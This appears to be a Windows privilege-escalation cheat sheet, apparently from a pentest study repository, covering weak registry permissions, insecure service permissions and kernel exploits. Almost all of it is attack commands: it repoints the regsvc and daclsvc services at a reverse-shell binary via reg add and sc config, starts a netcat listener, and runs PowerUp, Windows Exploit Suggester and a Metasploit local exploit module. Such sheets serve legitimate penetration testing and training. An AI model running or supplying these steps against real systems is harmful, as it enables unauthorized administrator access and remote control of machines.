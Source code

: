 ## Weak Registry Permissions

```
wmic service list brief | findstr /i reg

# Query Registry Services
sc qc regsvc

reg query HKLM /f regsvc

reg query HKLM\System\CurrentControlSet\Services\regsvc /v *

# Add the reverse shell in Registry
reg add HKLM\System\CurrentControlSet\Services\regsvc /v <value name> /t <type> /d <reverse shell location> /f

# Start Service
net start regsvc

# Start Listener
nc -nlvp 1234
```

## Insecure Service Permissions

```
# Check Permissions
accesschk.exe /accepteula -uvqwc user *

sc qc daclsvc

sc config daclsvc binpath="\"<location of reverse shell>""

# Start Service
net start daclsvc

# PowerUp.ps1
powershell import-module .\PowerUp.ps1;invoke-allchecks
```

## Kernel Exploits

[Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
$ python2 windows-exploit-suggester.py --update
$ python2 windows-exploit-suggester.py --database <xls filename> --systeminfo <systeminfo file>

# Metasploit Module
use exploit/windows/local/ms13_053_schlamperei
```
